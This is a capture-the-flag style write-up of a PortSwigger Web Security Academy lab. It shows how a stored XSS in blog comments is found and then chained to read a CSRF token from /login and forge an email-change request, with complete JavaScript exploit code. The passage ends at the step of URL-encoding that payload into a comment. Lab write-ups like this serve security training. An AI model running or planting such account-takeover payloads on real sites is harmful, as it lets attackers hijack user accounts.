# Lab: Exploiting XSS to bypass CSRF defenses

| Field | Details |
|-------|---------|
| **Provider** | PortSwigger |
| **Difficulty** | Practitioner |
| **Category** | Cross-Site Scripting |
| **Date** | 2026-07-25 |

---

## Summary

Exploiting XSS to bypass CSRF defenses is a lab in the PortSwigger Web Security Academy.

In this writeup, I'll walk through the entire manual exploitation flow step by step.

The task is to forge a request to change the email address of the victim, but there is a CSRF protection.



---

## Reconnaissance

When you open the target, it's a normal weblog — there are some posts, and users have profiles.


First, I clicked on my-account and entered the given credentials (in lab info),
so I was signed into some account.

Many websites have features to change email address, password, etc.
There was a form on the profile page and the user was able to change their email address.
So I turned on request interception in Burp Suite and then entered some email and clicked on the update button, just to have a closer look at the request parts:



And there was a CSRF protection: a CSRF token is a random string that usually comes along with PII, in profile pages (endpoints or pages which show user information), forms, etc.
The CSRF token will be sent in almost every state-changing request to prevent CSRF attacks:



<br>

The hacker needs to know where this token comes from. As I just mentioned, you can search different pages to find the point, but profile and login are common.
So I checked my profile again and searched the response for the CSRF token:



And it was there!

<br>

At this point I knew that the CSRF token is accessible from `/login` and the request to change the email address was cookie-based and used that CSRF token.
So if I was able to run a script in the victim's browser, what would I do?

1. Get the token from `/login`
2. Forge a request to `change-email` containing that token

<br>

So I knew that I had to look for some XSS.
And just to note — Cross-Site Scripting's main exploitation path is CSRF:
sending a request to change some state that the user didn't want to change.

So now, to take over the victim's account, all I needed was an XSS.
In the posts section, users are able to open each post, read comments, and write comments — just as usual.

First of all, I needed to know about reflections, so I filled each form field and submitted the comment form.



In the response, the site name, username, and comment itself were reflected.



<br>

The next move was to find out if there was a way to inject some HTML (harmless payloads first).
So I tried breaking the `href` attribute, closing an `img` tag, etc.



And my image was reflected in the response inside a `p` tag (comment section).
And I was able to see it on the page.





<br>

And I confirmed it with an empty alert.
So after all of this I knew where to inject JS code.



---

## Exploitation

Then I was ready to write the exploit code.
I opened the browser console and started writing JS code:

```javascript
fetch('/login', {method: 'get'}).then(res => res.text()).then(html => console.log(html))
```

This code would send an HTTP request to the page `/login` and the response body would be logged into the console.
And in the body I was able to find the `csrf` token:



But it was printing the entire HTML, and I only needed the token.
So I created an HTML parser and parsed the response body,
then I looked for an input which had its `name` attribute value equal to `csrf`.
I got the value and it was only the CSRF token.

```javascript
fetch('/login', {method: 'get'}).then(res => res.text()).then(html => {
  const parser = new DOMParser();
  const doc = parser.parseFromString(html, 'text/html');
  const CSRFTOKEN = doc.querySelector('input[name=csrf]').value;
  console.log(CSRFTOKEN);
})
```



<br>

After I had the CSRF token, it was time to write the entire exploit code:

```javascript
fetch('/login', {method: 'get'}).then(res => res.text()).then(html => {
  const parser = new DOMParser();
  const doc = parser.parseFromString(html, 'text/html');
  const CSRFTOKEN = doc.querySelector('input[name=csrf]').value;
  console.log(CSRFTOKEN);

  fetch('/my-account/change-email', {
    method: 'post',
    credentials: 'include', // to send the cookie in request
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded', // don't forget this part, or you should do it with a form
      'Referer': 'https://variableSub.web-security-academy.net/post?postId=3', // I took this from the original request; I don't think this is necessary but I preferred to include these headers
      'Origin': 'https://variableSub.web-security-academy.net'
    },
    body: 'email=attacker%40gmail.com&csrf='+CSRFTOKEN
  }).then(res => { if (res.ok) console.log('exploited.'); })
})
```

This code finds the CSRF token and uses it to forge a request to change the victim's email address.



And it worked!  
My new email was `attacker@gmail.com`.





<br>

My exploit code was working and I knew where to inject it, so there was one step remaining:
URL-encoding the exploit code and putting it in the comment post request. I also removed unnecessary parts (logs and those two headers):



